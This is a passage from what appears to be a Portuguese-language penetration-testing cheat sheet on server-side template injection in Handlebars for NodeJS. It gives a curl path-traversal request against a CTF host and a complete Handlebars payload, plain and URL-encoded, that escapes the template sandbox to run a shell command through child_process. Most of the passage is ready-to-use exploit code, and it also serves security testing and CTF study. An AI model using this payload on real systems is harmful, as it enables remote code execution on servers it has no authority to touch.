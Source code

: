 ### Handlebars (NodeJS)

Path Traversal (mais informações [aqui](https://blog.shoebpatel.com/2021/01/23/The-Secret-Parameter-LFR-and-Potential-RCE-in-NodeJS-Apps/)).
```bash
curl -X 'POST' -H 'Content-Type: application/json' --data-binary $'{\"profile\":{"layout\": \"./../routes/index.js\"}}' 'http://ctf.shoebpatel.com:9090/'
```
* \= Erro
* ${7\*7} = ${7\*7}
* Nada
```java
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}

URLencoded:
%7B%7B%23with%20%22s%22%20as%20%7Cstring%7C%7D%7D%0D%0A%20%20%7B%7B%23with%20%22e%22%7D%7D%0D%0A%20%20%20%20%7B%7B%23with%20split%20as%20%7Cconslist%7C%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epush%20%28lookup%20string%2Esub%20%22constructor%22%29%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%23with%20string%2Esplit%20as%20%7Ccodelist%7C%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epush%20%22return%20require%28%27child%5Fprocess%27%29%2Eexec%28%27whoami%27%29%3B%22%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%23each%20conslist%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%23with%20%28string%2Esub%2Eapply%200%20codelist%29%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%2Feach%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%7B%7B%2Fwith%7D%7D%0D%0A%7B%7B%2Fwith%7D%7D
```
**Mais informações**

* [http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html](http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html)

### JsRender (NodeJS)
